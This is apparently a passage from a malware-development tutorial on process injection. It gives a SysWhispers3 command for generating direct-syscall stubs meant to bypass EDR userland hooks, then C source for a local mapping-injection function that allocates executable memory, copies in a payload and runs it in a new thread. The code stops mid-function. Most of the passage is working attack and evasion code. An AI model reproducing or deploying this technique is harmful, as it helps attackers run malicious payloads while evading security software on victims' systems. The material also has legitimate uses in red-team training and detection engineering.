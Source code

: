 ### **Implementation Using SysWhispers**

The implementation here uses SysWhispers3 to bypass userland hooks via direct syscalls. The following command is used to generate the required files for this implementation.


```
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtCreateSection,NtMapViewOfSection,NtUnmapViewOfSection,NtClose,NtCreateThreadEx -o SysWhispers -v*

```
Three files are generated: `SysWhispers.h`, `SysWhispers.c` and `SysWhispers-asm.x64.asm`. The next step is to import these files into Visual Studio as demonstrated in the previous module. `LocalMappingInjectionViaSyscalls` and `RemoteMappingInjectionViaSyscalls` are shown below.

### **LocalMappingInjectionViaSyscalls**


```
BOOL LocalMappingInjectionViaSyscalls(IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection		= NULL;
	HANDLE				hThread			= NULL;
	PVOID				pAddress		= NULL;
	NTSTATUS			STATUS			= NULL;
	SIZE_T				sViewSize		= NULL;
	LARGE_INTEGER		MaximumSize		= {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};

//--------------------------------------------------------------------------
	// Allocating local map view

	if ((STATUS = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if ((STATUS = NtMapViewOfSection(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sViewSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pAddress);

//--------------------------------------------------------------------------

	// Executing the payload via thread creation

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
```